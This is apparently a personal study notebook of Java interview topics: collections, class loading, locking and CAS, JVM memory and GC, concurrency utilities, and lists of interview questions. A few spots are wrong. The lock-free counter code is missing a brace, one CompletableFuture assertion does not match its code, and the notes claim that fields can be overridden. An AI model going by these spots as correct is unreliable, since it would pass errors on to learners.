

# Java

## null

null 依然会占用内存. This is 4 bytes on 32-bit systems or 8 bytes on 64-bit systems.

<https://stackoverflow.com/questions/2430655/java-does-null-variable-require-space-in-memory>

## ClassLoader

BootstrapClassLoader

## PriorityQueue

```java
    Arrays.sort(intervals, new Comparator<int[]>() {
        public int compare(int[] interval1, int[] interval2) {
            return interval1[0] - interval2[0];
        }
    });  // 增序
```

## 时间处理

LocalDate
LocalTime
LocalDateTime
Instance 获取秒

## Collections

Collections.emptyList(); 返回的 list 无法被修改. 可做为返回空时使用.

## 反射

```java
Class.forName()
ClassLoader.loadClass()
```

## HashMap

基本原理: 一个数组(长度为 2 次幂),一个链表, 当放入一个值时, Hash 这个值,按结果放入数组的某一位置, 如果有多个值都应该放入数组的某一位置, 则其余数据通过链表(链地址法)记录.

哈希冲突的解决方案有多种:开放定址法(发生冲突，继续寻找下一块未被占用的存储地址)，再散列函数法，链地址法;

如果链表节点大于等于 8 且数组长度大于等于 64, 链表就转成红黑树.

扩容需要重新传输数据.

如何计算元素存放位置?

通过(n - 1) & hash 的计算方法来得出该元素在集合中的位置(其中 n 是数组大小)

为什么数组长度是 2(扩容)呢?

1. 扩容: 大小指定为 2 的幂次，当哈希桶扩大 2 倍时，只需要进行左移操作(2 进制)，众所周知，位操作的速度还是超快的
2. Hash 算法的均匀分布，减少哈希碰撞几率: 16 或者其他 2 的幂，Length-1 的值是后面的二进制位全为 1，例如 16-1=15 二进制 1111，32-1=31 二进制 11111，这种情况下，index = key 值 HashCode&(length-1)，index 的结果等同于 key 值的 HashCode 后几位的值. 只要输入的 HashCode 本身分布均匀，Hash 算法的结果就是均匀的.

## Base

重载: 方法名相同而参数列表不同的一组方法就是重载

多态就是同一个接口，使用不同的实例而执行不同操作

抽象函数,抽象类,接口,重写(继承)

一、使用父类类型的引用指向子类的对象；

二、该引用只能调用父类中定义的方法和变量；

三、如果子类中重写了父类中的一个方法，那么在调用这个方法的时候，将会调用子类中的这个方法；(动态连接、动态调用);

四、变量可以被重写(覆盖).

多态引用时，构造子类对象时的构造方法的调用顺序

1，先调用超类的构造方法，多重超类首先调用最远超类的方法；

2，然后再执行当前子类的构造方法

## 泛型

协变: <? extends >

```java
ArrayList<? extends Number> arrayList=new ArrayList<Integer>();
```

逆变: <? super >

```java
ArrayList<? super Integer> arrayList1=new ArrayList<Number>();
```

## java 类加载过程

1. 连接

   1. 验证：确保被加载的类的正确性
      文件格式验证 Class 文件格式
      元数据验证 字节码描述的信息
      字节码验证 程序语义
      符号引用验证 解析动作能正确执行
      可以用 -Xverifynone 关闭大部分验证, 节约时间

   2. 准备数据: 为类的`静态变量`分配内存，并将其初始化为默认值 null ,0L , false 等.静态变量的初始赋值是在准备之后执行的. 对应的指令是在程序编译后，存放于类构造器 `<clinit>()`之中的, 但是 `static final` 是准备间段就赋值了.

   3. 解析: 类中的符号引用直接指向目标的指针或一个间接定位到目标的句柄

   4. 初始化: 为类的静态变量赋予正确的初始值，JVM 负责对类进行初始化，主要对类变量进行初始化。
      如果使用到了其它的类, 那么:
      假如这个类还没有被加载和连接，则程序先加载并连接该类;
      假如该类的直接父类还没有被初始化，则先初始化其直接父类
      假如类中有初始化语句，则系统依次执行这些初始化语句

2. 类加载器

启动类加载器：Bootstrap ClassLoader (无法被 Java 程序直接使用)

扩展类加载器：Extension ClassLoader

应用程序类加载器：Application ClassLoader

JVM 规范允许类加载器在预料某个类将要被使用时就预先加载它，如果在预先加载的过程中遇到了.class 文件缺失或存在错误，类加载器必须在程序首次主动使用该类时才报告错误（LinkageError 错误）如果这个类一直没有被程序主动使用，那么类加载器就不会报告错误

```java
Class.forName()
ClassLoader.loadClass()
```

JVM 类加载机制

全盘负责，当一个类加载器负责加载某个 Class 时，该 Class 所依赖的和引用的其他 Class 也将由该类加载器负责载入，除非显示使用另外一个类加载器来载入

父类委托，先让父类加载器试图加载该类，只有在父类加载器无法加载该类时才尝试从自己的类路径中加载该类

缓存机制，缓存机制将会保证所有加载过的 Class 都会被缓存，当程序中需要使用某个 Class 时，类加载器先从缓存区寻找该 Class，只有缓存区不存在，系统才会读取该类对应的二进制数据，并将其转换成 Class 对象，存入缓存区。这就是为什么修改了 Class 后，必须重启 JVM，程序的修改才会生效

双（单）亲委派机制:

1、当 AppClassLoader 加载一个 class 时，它首先不会自己去尝试加载这个类，而是把类加载请求委派给父类加载器 ExtClassLoader 去完成。
2、当 ExtClassLoader 加载一个 class 时，它首先也不会自己去尝试加载这个类，而是把类加载请求委派给`BootStrapClassLoader`去完成。
3、如果 BootStrapClassLoader 加载失败（例如在`$JAVA_HOME/jre/lib`里未查找到该 class），会使用 ExtClassLoader 来尝试加载；
4、若 ExtClassLoader 也加载失败，则会使用 AppClassLoader 来加载，如果 AppClassLoader 也加载失败，则会报出异常 ClassNotFoundException。

系统类防止内存中出现多份同样的字节码
保证 Java 程序安全稳定运行

### 自定义类加载器

可以加载加密的字节码.
一般不要重写 loadClass 方法，否则容易破坏双亲委托模式。

## 停止线程

抛异常, 运行判断

[interrupted,isInterrupted](https://docs.oracle.com/javase/tutorial/essential/concurrency/interrupt.html)

interrupted(): 测试当前线程是否已经中断.
当线程通过调用静态方法 Thread.interrupted 检查中断时，将清除中断状态; 如果连续两次调用该方法，第一次状态清除, 第二次调用返回 false.

isInterrupted(): 测试线程是否已经中断； 一个线程用于查询另一线程的中断状态的非静态 isInterrupted 方法不会更改中断状态标志.

## ConcurrentHashMap 限制条件

如果有多个线程操作,且不能保证操作之间的状态一致, 需要确保需要手动加锁.

例如: size、isEmpty 和 containsValue 等聚合方法，在并发下可能会反映 ConcurrentHashMap 的中间状态. 因此在并发情况下，这些方法的返回值只能用作参考，而不能用于流程控制. 显然，利用 size 方法计算差异值，是一个流程控制.

putAll 这样的聚合方法也不能确保原子性，在 putAll 的过程中去获取数据可能会获取到部分数据.

例如, 向 Map 中补充 100 条数据进去，当第一个线程看到时是 0 条,第二个也是 0 条, 同时补充就会出现问题.

ConcurrentHashMap 可以确保多个线程不会互相干扰，但同时插入 100 条数据的操作不是原子性的，

[比较: computeIfAbsent&putIfAbsent [from:stackoverflow]](https://stackoverflow.com/questions/48183999/what-is-the-difference-between-putifabsent-and-computeifabsent-in-java-8-map)

因此，如果键已经存在，则它们返回相同的内容，但是如果键丢失，则 computeIfAbsent 返回计算值，而 putIfAbsent 返回 null.

Difference #1

computeIfAbsent takes a mapping function, that is called to obtain the value if the key is missing.

putIfAbsent takes the value directly.

If the value is expensive to obtain, then putIfAbsent wastes that if the key already exists.

A common "expensive" value is e.g. new ArrayList<>() for when you're creating a Map<K, List\<V>>, where creating a new list when the key already exists (which then discards the new list) generates unnecessary garbage.

Difference #2

computeIfAbsent returns "the current (existing or computed) value associated with the specified key, or null if the computed value is null".

putIfAbsent returns "the previous value associated with the specified key, or null if there was no mapping for the key".

So, if the key already exists, they return the same thing, but if the key is missing, computeIfAbsent returns the computed value, while putIfAbsent return null.

Difference #3

Both method define "absent" as key missing or existing value is null, but:

computeIfAbsent will not put a null value if the key is absent.

putIfAbsent will put the value if the key is absent, even if the value is null.

It makes no difference for future calls to computeIfAbsent, putIfAbsent, and get calls, but it does make a difference to calls like getOrDefault and containsKey.

## DefaultUncaughtExceptionHandler 全局异常捕获

//

## JIT(Just-In-Time Compiler)

## 锁 ，原子性

### 使用

#### Lock 接口

ReentrantLock 和 synchronized 有相同的语义，但是有更高的性能，ReentrantLock 使用原子变量来维护等待锁定的线程队列.

synchronized 获取锁的时候只能一直等，没有超时机制，也不能被打断，而且锁的获取和释放必须在一个方法内,
而 ReentrantLock 的 lock 方法和 synchronized 是等同语义的，还可以通过 tryLock 等方法有多种选择，并且以接口和类的形式而不是语言 feature 的形式存在，更好扩展. lock 可以让等待的线程响应中断,可以知道锁有没或的成功.

> ```java
> // lock 是一个接口
> public interface Lock {
>    void lock();
>    void lockInterruptibly() throws InterruptedException;
>    boolean tryLock();
>    boolean tryLock(long time, TimeUnit unit) throws InterruptedException;
>    void unlock();
>    Condition newCondition();
> }
> ```
>
> **Lock 的必须在 finally 块中 unlock, 它不会自己释放**

#### Java synchronized

[synchronized 并不一定就是悲观锁,JVM 会先尝试基于 CAS 的瘦锁,发现有 Contention 再升级为重量级的悲观锁](https://blog.overops.com/java-8-stampedlocks-vs-readwritelocks-and-synchronized/)

#### ReentrantLock

锁的 acquire 是 per thread 的， 而不是 per call 的，也就是同一个线程再次申请已经获得的锁，直接成功返回. 如果是非 re-entrant 的锁，一个线程试图获取已经获得的锁会死锁，因为当前线程会挂起，没有机会 release 锁

synchronized 的锁和 ReentrantLock 都是 可重入锁.

```java
    // ReadWriteLock
    // 有公平锁和非公平锁
    Lock lock = new ReentrantLock(true);
    Condition condition = lock.newCondition();
    lock.lock();
    System.out.println("hello world");
    try {
        condition.await();// 等待
    } catch (InterruptedException e) {
        e.printStackTrace();
    } finally {
        // 发生异常不会自动释放锁
        lock.unlock();
    }
    condition.signal();//发送
```

### 原子性

AtomicInteger 主要解决原子性，内部维护的那个 int 值是用 volatile 声明的,保证了可见性

> **注意**: 可见性保证只有两个办法，就是 synchronized 和 volatile

AtomicReference

volatile 再 Java 中告诉虚拟机不用缓存对应变量在高速缓存中,只从内存读取, (再 C/C++ 中还可以防止指令重排)

### 计数器示例

```java
    @ThreadSafe
    public class CheesyCounter {
        // Employs the cheap read-write lock trick
        // All mutative operations MUST be done with the 'this' lock held
        @GuardedBy("this") private volatile int value;
        public int getValue() { return value; }
        public synchronized int increment() {
            return ++value;
        }
    }
```

++value 是非原子操作(典型的 读取-修改-写回)用 synchronized 保证原子性(也可以用 ReentrantLock) ，getValue 是原子的，可见性问题由 volatile 保证了. 假如不用 volatile 那个简单的读取也要用锁

对变量的操作是原子的，(注意原子操作只有赋值和读取，即“=”操作符，++value 不是)

只有一个线程写，

用 ReentrantLock 代替 synchronized 后， 需要用 wait, notify 的时候怎么办？

众所周知，wait 和 notify 必须放在 synchronized 块里，现在用了 Lock 了怎么办？答案是 Lock 的 Condition，也就是用了不需要用 Object.wait()了

锁的等待队列，是先申请的线程先获取吗？

ReentrantLock 的构造函数有一个参数，指定这个锁是 fair 的还是 unfair 的，fair 的意思是说按申请锁的先后顺序排队，先到先得，而 unfair 的锁不保证这一点. 默认是 unfair 的. 而且，内置的 synchronized 锁是 unfair 的，也就是其实先申请锁的线程不一定先执行！

fair 的锁比较慢，几种并发模式的性能比较 Fair ReentrantLock < synchronized < Unfair ReentrantLock < 非阻塞算法

### 非阻塞算法原理

- 偏向锁(已废弃)
  访问同步块时, 在置换 ThreadID 的时候依赖一次 CAS 原子指令(多线程竞争需要到达全局撤销偏向锁), 偏向某已线程

- 轻量级锁
  自旋消耗 CPU, 响应时间块
  > 一般基于 CAS, (campare and set/swap)，用一个 while 循环，先读取 old value, 然后计算新值，在更新的时候看 target 变量的值是否还是 oldvalue，如果是，说明没有别的线程干扰，执行更新，否则有别的线程更新过，while 回去重新来一遍. 注意这里的“看 target 变量是否还是 oldvalue 并且更新”是一个原子操作 CAS.
  > CAS(Compare And Swap) : CPU 提供的函数, 在用户态完成锁操作(减少消耗).
  > CAS 操作
        - 成功，替换 Mark Word 中的ThreadID为当前ThreadID，该锁会保持偏向锁。
        - 失败，标识锁有竞争，偏向锁会升级为轻量级锁。

锁的状态:

- 无锁状态

-
- 重量级锁 Synchronized
  不自旋, 吞吐量大.

java 对象头添加锁升级功能

锁的类型:

- 互斥锁(操作系统实现)
  加锁失败, 释放 CPU
- 自旋锁
  加锁失败, 忙等待

-适应性自旋 -锁消除 编译器对锁的优化, 如果不用锁, 编译器会去除锁 -锁粗化 几个相邻的同步块使用的是同一个锁实例, 合并成一个

悲观锁

乐观锁
实际不加锁, 使用原子操作.

尽量减少锁粒度，也能够优化锁竞争

## 加锁

<https://howtodoinjava.com/java/multi-threading/how-to-use-locks-in-java-java-util-concurrent-locks-lock-tutorial-and-example/#:~:text=A%20java.util.concurrent.locks.Lock%20is%20a%20thread%20synchronization%20mechanism%20just,implementations%20to%20use%20a%20Lock%20in%20your%20applications>

<http://tutorials.jenkov.com/java-concurrency/locks.html>

synchronized(this) {

synchronized public void syncFunc(String str){

## HashMap 使用 putIfAbsent(key,new Object())

This method returns the existing value mapped to the key and **returns null** if no value is previously mapped to the key.

## Atomic(Boolean,Integer...) 修饰

```java
  public class NonblockingCounter {
      private AtomicInteger value;
      public int getValue() {
          return value.get();
      }
      public int increment() {
          int v;
          do {
              v = value.get();
          while (!value.compareAndSet(v, v + 1));
          return v + 1;
      }
  }
```

无锁堆栈

```java
    class ConcurrentStack<E> {
        AtomicReference<Node> head = new AtomicReference<Node>();
        public void push(E item) {
            Node newHead = new Node(item);
            Node oldHead;
            do {
                oldHead = head.get();
                newHead.next = oldHead;
            } while (!head.compareAndSet(oldHead, newHead));
        }
        public E pop() {
            Node oldHead;
            Node newHead;
            do {
                oldHead = head.get();
                if (oldHead == null)
                    return null;
                newHead = oldHead.next;
            } while (!head.compareAndSet(oldHead,newHead));
            return oldHead.item;
        }
        class Node {
            final E item;
            Node next;
            public Node(E item) { this.item = item; }
        }
    }
```

## JVM 和内存

JVM 内存划分:

1. 程序私有计数器. 记录当前虚拟机字节码指令.
2. Java 虚拟机栈. 线程私有区域, 记录线程状态.
3. 本地方法栈. 线程私有区域, JIT 技术相关, 用来记录 JIT 状态.
4. Java 堆. 存放对象(所以是 GC 最多区域), 线程共享.
5. 方法区. (Meta Space) 存储类信息, 常量, 静态变量. 一般不会收.
6. 堆外内存. 不由 JVM 管理, 需要手动管理.

### 对象内存


## Java 内存回收

引用计数法(循环引用时无法回收).

可达性算法

三块区域

频繁需要回收的

### 可达性算法

先有一个 GC Root 对象, 然后 GC Root 对象能够到达其它对象(即被使用或"引用"中), 则这个其它对象不被回收; 否则, 回收.



那些可以认为 GC Root 对象:

- 方法中局部变量区中的对象引用
- Java 操作栈中对象引用
- 常量池中的对象引用
- 本地方法栈中的对象引用
- 类的 Class 对象

### 垃圾收集算法

- 标记-清除法. 扫描全部对象，并标记可回收对象，然后清除. 缺点是回收完会产生很多碎片空间.

- 复制法. 将内存划分为相等的两块，每次只使用其中一块. 当这一块内存用完时，就将还存活的对象复制到另一块上面，然后将已经使用过的内存空间一次清理掉. 缺点是对内存空间消耗较大，并且当对象存活概率较高的时候，复制带来的额外开销也很高.

- 标记-整理法. 标记-清除法升级版, 让所有存活对象都向另一端移动, 然后直接清理掉端边界以外的内存.

#### 对象分代

对象生命周期不一样, 可以采用不同的垃圾回收算法. 比如对寿命较短的对象采用复制法，而对寿命比较长的对象采用标记-整理法.


Perm 区 GC 条件:

1. 该类所有的实例都已经被回收
2. 加载该类的 ClassLoader 已经被回收
3. 该类对应的 java.lang.Class 对象没有在任何地方被引用，无法在任何地方通过反射访问该类的方法.

GC 指标:

1. 延迟(latency)
2. 吞吐量(Throughput): 单位时间内需要处理完成的操作数量.
3. 系统容量(Capacity):是在达成吞吐量和延迟指标的情况下,对硬件环境的额外约束.

### 查看 JVM 的使用情况

jps 进程状况
jstat 运行时信息监控
jmap 导出堆文件分析

## java -Xmx512M -Xms512M -Djava.security.egd=/dev/urandom

## 要使用 UTF-8

新版本弃用

```sh
-Dfile.encoding=UTF-8
JAVA_TOOL_OPTIONS
```

## 内存

volatile 两大作用

1、保证内存可见性(保证从内存中读取)

在 java 中为了保证一个变量能够及时的在其它线程可见一个变量, 就需要使用`volatile`, 否则一个线程修改了另为一个线程可能看不到, 因为 java 在编译时可能会把另为一个变量放入寄存器中.

## Service Provider Interface

类似接口, 由服务方提供标准实现, 将装配的控制权移到程序之外. 调用者根据实际使用需要，启用、扩展、或者替换框架的实现策略.
数据库驱动加载接口实现类的加载(所以 Class.fromName 不再需要).

### [Difference between SPI and API?](https://stackoverflow.com/questions/2954372/difference-between-spi-and-api#:~:text=SPI%20stands%20for%20Service%20Provider%20Interface.%20It%20is,example%20is%20JavaMail.%20Its%20API%20has%20two%20sides%3A)

- The API is the description of classes/interfaces/methods/... that you call and use to achieve a goal, and
- the SPI is the description of classes/interfaces/methods/... that you extend and implement to achieve a goal.

Put differently, the API tells you what a specific class/method does for you, and the SPI tells you what you must do to conform

Usually API and SPI are separate. For example, in JDBC the Driver class is part of the SPI: If you simply want to use JDBC, you don't need to use it directly, **but everyone who implements a JDBC driver must implement that class**.

Sometimes they overlap(重叠), however. The Connection interface is both SPI and API: You use it routinely when you use a JDBC driver and it needs to be implemented by the developer of the JDBC driver.

注意: 多个并发多线程使用 ServiceLoader 类的实例是不安全的。

### 使用要求

当服务提供者提供了接口的一种具体实现后，在 jar 包的 META-INF/services 目录下创建一个以“接口全限定名”为命名的文件，内容为实现类的全限定名

接口实现类所在的 jar 包放在主程序的 classpath 中；

主程序通过 java.util.ServiceLoder 动态装载实现模块，它通过扫描 META-INF/services 目录下的配置文件找到实现类的全限定名，把类加载到 JVM；

SPI 的实现类必须携带一个不带参数的构造方法；

## 线程

在对象上: wait,notify,notify. wait 挂起线程(阻塞状态), 直到 notify 或 notifyAll 唤醒.

notifyAll 可以唤醒这个对象上的所有线程, 线程唤醒后需要竞争到锁（monitor）.

在 Thread 中

yield 暂停当前线程，以便其他线程有机会执行，不能指定暂停的时间，也不能保证当前线程马上停止

join() 通过 wait 阻塞当前线程，执行 join 的线程, 直到 join 执行完成

什么是守护线程？有什么用？
sleep 和 wait 区别
notify 和 notifyAll 区别

两个线程如何串行执行
上下文切换是什么含义
可以运行时 kill 掉一个线程吗？
什么是条件锁、读写锁、自旋锁、可重入锁？
线程池 ThreadPoolExecutor 的实现原理？

## ThreadLocal 的作用与实现

The TheadLocal construct allows us to store data that will be accessible only by a specific thread.

Let's say that we want to have an Integer value that will be bundled with the _specific thread_:

<https://www.baeldung.com/java-threadlocal>

```java
public class ThreadLocalWithUserContext implements Runnable {
 
    private static ThreadLocal<Context> userContext 
      = new ThreadLocal<>();
    private Integer userId;
    private UserRepository userRepository = new UserRepository();

    @Override
    public void run() {
        String userName = userRepository.getUserNameForUserId(userId);
        userContext.set(new Context(userName));
        System.out.println("thread context for given userId: " 
          + userId + " is: " + userContext.get());
    }
    
    // standard constructor
}
ThreadLocalWithUserContext secondUser 
  = new ThreadLocalWithUserContext(2);
```

在 Spring Boot 中可以用来存储用户信息, `private static final ThreadLocal<UserInfoInTokenBO> USER_INFO_IN_TOKEN_HOLDER = new TransmittableThreadLocal<>();` 这样接口处就不用每次都写用户 token 相关信息了.

如果使用 SpringSecurity, 也可以使用

```java
Token token= ...;
UserTokenAuthenticationToken authenticationRequest = new UserTokenAuthenticationToken(token,true);
authenticationRequest.setDetails(new WebAuthenticationDetailsSource().buildDetails(request));
SecurityContext context = SecurityContextHolder.getContext();
context.setAuthentication(authenticationRequest);

```

## 五、Linux 使用与问题分析排查

Load 过高的可能性有哪些？
怎么看一个 Java 线程的资源耗用？
Java 服务端问题排查(OOM，CPU 高，Load 高，类冲突)
Java 常用问题排查工具及用法(top, iostat, vmstat, sar, tcpdump, jvisualvm, jmap, jconsole)
Thread dump 文件如何分析(Runnable，锁，代码栈，操作系统线程 ID 关联)

## 六、框架使用

描述一下 Hibernate 的三个状态？
Spring 中 Bean 的生命周期.
SpringMVC 或 Struts 处理请求的流程.
Spring AOP 解决了什么问题？怎么实现的？
Spring 事务的传播属性是怎么回事？它会影响什么？
Spring 中 BeanFactory 和 FactoryBean 有什么区别？
Spring 框架中 IOC 的原理是什么？
spring 的依赖注入有哪几种方式
struts 工作流程
用 Spring 如何实现一个切面？
Spring 如何实现数据库事务？
Hibernate 对一二级缓存的使用，Lazy-Load 的理解；
mybatis 如何实现批量提交？

## 数据库相关

MySQL InnoDB、Mysaim 的特点？
乐观锁和悲观锁的区别？
数据库隔离级别是什么？有什么作用？
MySQL 主备同步的基本原理.
select \* from table t where size > 10 group by size order by size 的 sql 语句执行顺序？
如何优化数据库性能(索引、分库分表、批量操作、分页算法、升级硬盘 SSD、业务优化、主从部署)
SQL 什么情况下不会使用索引(不包含，不等于，函数)
一般在什么字段上建索引(过滤数据最多的字段)
如何从一张表中查出 name 字段不包含“XYZ”的所有行？
MySQL，B+索引实现，行锁实现，SQL 优化
Redis，RDB 和 AOF，如何做高可用、集群
如何解决高并发减库存问题
mysql 存储引擎中索引的实现机制；
数据库事务的几种粒度；
行锁，表锁；乐观锁，悲观锁

## 网络协议和网络编程

### TCP 建立连接的过程

三次握手, 确定两端通信正常。发送 SYN1 和 ACK

C->SYN->S
C<-SYN+ACK<-S
S->ACK->S

SYN 和 ACK 号用以传输数据时进行数据检查 丢失, 多次发送, 顺序

After sending off a packet, the sender starts a timer and puts the packet in a retransmission queue. If the timer runs out and the sender has not yet received an ACK from the recipient, it sends the packet again.

四次回收，确保关闭双工, 一端 fin 只是停止发送数据(信号可以发送), 但是可以接受数据

- ACK —— 确认，使得确认号有效。
- RST —— 重置连接(reset by peer)。
- SYN —— 用于初如化一个连接的序列号。
- FIN —— 该报文段的发送方已经结束向对方发送数据, 但是可以发送(信号)ACK, 以便确认关闭。

<https://www.khanacademy.org/computing/computers-and-internet/xcae6f4a7ff015e7d:the-internet/xcae6f4a7ff015e7d:transporting-packets/a/transmission-control-protocol--tcp>

IP is responsible for routing of packets from source to destination across the Internet.

## 线程转储

_JVM 中在某一个给定的时刻运行的所有线程的快照_, 一个线程转储可能包含一个单独的线程或者多个线程。在多线程环境中，将会有许多线程和线程组。每一个线程都有它自己的调用堆栈，在一个给定时刻，表现为一个独立功能。线程转储将会提供 JVM 中所有线程的堆栈信息，对于特定的线程也会给出更多信息.

[使用案例](https://m.ituring.com.cn/book/tupubarticle/29217?bookID=2622&type=tubook&subject=%E7%AC%AC%202%20%E7%AB%A0%E3%80%80%E6%A1%88%E4%BE%8B%E7%A0%94%E7%A9%B6%EF%BC%9A%E8%AE%A9%E8%88%AA%E7%A9%BA%E5%85%AC%E5%8F%B8%E5%81%9C%E9%A3%9E%E7%9A%84%E4%BB%A3%E7%A0%81%E5%BC%82%E5%B8%B8)

### 生成 java 线程转储

1. VisualVM
2. jstack `jstack PID >> mydumps` (PID = ps -eaf | grep java)
3. Unix：kill -3 ，输出到了`/proc/`
4. Windows：CTRL+BREAK , 需要在终端运行
5. jcmd PID Thread.print

## 1

浏览器发生 302 跳转背后的逻辑？
HTTP 协议的交互流程. HTTP 和 HTTPS 的差异，SSL 的交互流程？
Rest 和 Http 什么关系？ 大家都说 Rest 很轻量，你对 Rest 风格如何理解？
TCP 的滑动窗口协议有什么用？讲讲原理.
HTTP 协议都有哪些方法？
交换机和路由器的区别？
Socket 交互的基本流程？
http 协议(报文结构，断点续传，多线程下载，什么是长连接)
tcp 协议(建连过程，慢启动，滑动窗口，七层模型)
webservice 协议(wsdl/soap 格式，与 rest 协议的区别)
NIO 的好处，Netty 线程模型，什么是零拷贝
九、Redis 等缓存系统/中间件/NoSQL/一致性 Hash 等
列举一个常用的 Redis 客户端的并发模型.
HBase 如何实现模糊查询？
列举一个常用的消息中间件，如果消息要保序如何实现？
如何实现一个 Hashtable？你的设计如何考虑 Hash 冲突？如何优化？
分布式缓存，一致性 hash
LRU 算法，slab 分配，如何减少内存碎片
如何解决缓存单机热点问题
memcache 与 redis 的区别
zookeeper 有什么功能，选举算法如何进行
map/reduce 过程，如何用 map/reduce 实现两个数据源的联合统计

## 设计模式与重构

你能举例几个常见的设计模式
你在设计一个工厂的包的时候会遵循哪些原则？
你能列举一个使用了 Visitor/Decorator 模式的开源项目/库吗？
你在编码时最常用的设计模式有哪些？在什么场景下用？
如何实现一个单例？
代理模式(动态代理)
单例模式(懒汉模式，并发初始化如何解决，volatile 与 lock 的使用)
JDK 源码里面都有些什么让你印象深刻的设计模式使用，举例看看？

## 异步线程工具

### reactor

```xml
<dependency>
    <groupId>io.projectreactor</groupId>
    <artifactId>reactor-core</artifactId>
    <version>3.3.9.RELEASE</version>
</dependency>
```

```java
Flux<Integer> just = Flux.just(1, 2, 3, 4);
```

Spring WebFlux

rxjava, Spring WebFlux

## Vector

Vector 很多方法都使用 synchronized 修饰，虽然线程安全，但是，很多情况下本身就是单线程，使用 synchronized 修饰，会降低性能。

ArrayDeque,LinkedList 也可以在需要线程安全的时候也可以用 Collections.synchronizedCollection();

## BlockingDeque

可以用作两个线程的通信，一个线程填数据，另一个线程获取， 如果队列没有数据，获取的线程可以一直卡着，直到有数据才返回结果

## JDK Foreign Function

## Duration

```java
    public static void main(String[] args) {
        // Measure the execution time of functionA
        Duration durationA = measureExecutionTime(() -> functionA());

        // Measure the execution time of functionB
        Duration durationB = measureExecutionTime(() -> functionB());

        // Compare the durations
        int comparison = durationA.compareTo(durationB);
        if (comparison < 0) {
            System.out.println("functionA took less time than functionB");
        } else if (comparison > 0) {
            System.out.println("functionB took less time than functionA");
        } else {
            System.out.println("functionA and functionB took the same amount of time");
        }
    }

    public static void functionA() {
        // Code for functionA
    }

    public static void functionB() {
        // Code for functionB
    }

    public static Duration measureExecutionTime(Runnable runnable) {
        long startTime = System.nanoTime();
        runnable.run();
        long endTime = System.nanoTime();

        return Duration.ofNanos(endTime - startTime);
    }
```

## intern

In Java, the intern() method is a part of the String class. When called on a String object, it checks if the string value is already present in the string pool. If the string is already in the pool, a reference to the existing string is returned. If the string is not in the pool, it is added to the pool and the reference to the newly added string is returned.

The string pool is a special area of memory in Java where string literals are stored. When you create a string literal (e.g., "hello"), Java automatically checks the string pool to see if an identical string already exists. If it does, the existing string is reused; otherwise, a new string is created in the pool.

Using the intern() method can be useful in certain scenarios to conserve memory and optimize performance. By interning strings, you can ensure that only one copy of each unique string value exists in the string pool.

Here's an example to illustrate the usage of intern():

```java
String s1 = "hello";
String s2 = new String("hello");

System.out.println(s1 == s2);  // false
System.out.println(s1.intern() == s2.intern());  // true
```

In this example, s1 and s2 are two different String objects, even though they have the same value. The == operator compares object references, so s1 == s2 is false. However, when we call intern() on both strings and compare the interned references, s1.intern() == s2.intern() is true because both strings are now referencing the same string in the string pool.

Please note that manually interning every string is not recommended in most cases, as it can have an impact on memory usage and performance. The JVM already performs some automatic string interning for string literals. It is generally more efficient to rely on the JVM's string interning mechanism unless you have a specific need to intern strings manually.

```java
String a=new String("123").intern();
String b="qwq".intern();
```

## 虚拟线程


## PO,VO,DAO,BO,POJO，DTO

PO : persistant object 持久对象. 可以理解为数据库中的一条记录, 但是不包含任何对数据库的操作

VO : value object 值对象.

DAO : data access object 数据访问对象. DAO中包含了各种数据库的操作方法. 通过它的方法,结合PO对数据库进行相关的操作; 配合VO, 提供数据库的CRUD操作

DTO : Data Transfer Object数据传输对象, 向远程传输的对象.

POJO : plain ordinary java object 简单java对象. 普通值的对象


## 高阶函数

public void add(Function<Integer,Integer> function){

}

## 计时

commons-lang3: `StopWatch`

Spring: `StopWatch`

java: Stopwatch

```java
 Stopwatch timer = new Stopwatch();
   int cnt = ThreeSum.count(a);
   double time = timer.elapsedTime();
```

## 异步计算 同步返回|同时返回

```java
CompletableFuture<String> completableFuture = CompletableFuture.supplyAsync(() -> "Hello")
.thenCompose(s -> CompletableFuture.supplyAsync(() -> s + " World"));

assertEquals("Hello World", completableFuture.get()); 
// thenApply()和thenCompose() 类似 thenCompose() 可以链式调用, 一般查看api 看返回值可以猜测是什么用途
```

```java
CompletableFuture<String> future1 = CompletableFuture.supplyAsync(() -> "Hello");
CompletableFuture<String> future2 = CompletableFuture.supplyAsync(() -> "World");
CompletableFuture<Void> combinedFuture = CompletableFuture.allOf(future1, future2);
combinedFuture.get();
assertTrue(future1.isDone());
assertTrue(future2.isDone());

String combined = Stream.of(future1, future2).map(CompletableFuture::join).collect(Collectors.joining(" "));
assertEquals("Hello Beautiful World", combined);
```

## 异步开发方案

Vertx(全链路异步),RxJava

## 并发工具包

### [java.util.concurrent](https://docs.oracle.com/javase/7/docs/api/java/util/concurrent/package-summary.html)

```java

BlockingDeque // 双端队列;
BlockingQueue
```

## 对象复制

```java
Spring BeanUtils
Apache PropertyUtils
```

## 频繁使用Collection.contains

Collection.contains 时间复杂度O(n)

转换为 HashSet 时间复杂度O(1).

## Map 高效迭代

```java
for(Map.Entry<> entry:map.entrySet()){
    key=entry.getKey();
    value=entry.getValue();
}
```

## fail-fast

多线程或for-each修改Collection, 抛出异常ConcurrentModificationException

## 观察者模式

```java
// Jdk 有个抽象的
Observable
```

## kill Command

kill -9 直接杀死
kill -3|-15 发送信号

Java 接受关闭信号: Runtime.getRuntime().addShutdownHook()

## FutureTask

让Thread 返回值

任务状态转换:

- NEW -> COMPLETING -> NORMAL
- NEW -> COMPLETING -> EXCEPTIONAL
- NEW -> CANCELLED
- NEW -> INTERRUPTING -> INTERRUPTED

```java
FutureTask<String> futureTask=new FutureTask<>(new Callable<>() {
      @Override
      public String call() throws Exception {
        // 在这里运行代码
          return null;
      }
  });
Thread thread = new Thread(futureTask);
thread.start();
futureTask.get();// 返回结果
```

## graalvm

graalvm 是一个高性能的`runtime`, 对于微服务有极佳的性能. 可以运行java,javascritp,python,Node.js等.还可以编译成原生运行(c/c++)AOT(预先编译).

安装时直接配置运行环境即可.

`native-image` 示例 <https://www.graalvm.org/reference-manual/native-image/>

## record . jdk 16 正式纳入

```java
public record TestRecord(long id,
                         String email,
                         int age) {
    public TestRecord {
        Objects.requireNonNull(email);
    }

    public TestRecord(long id) {
        this(id, "", 1);
    }

    public static TestRecord id(long id) {
        return new TestRecord(id);
    }
   
}
// 使用
TestRecord testRecord = new TestRecord(1L, "", 1);
long d = testRecord.id();
testRecord.id(1);
```

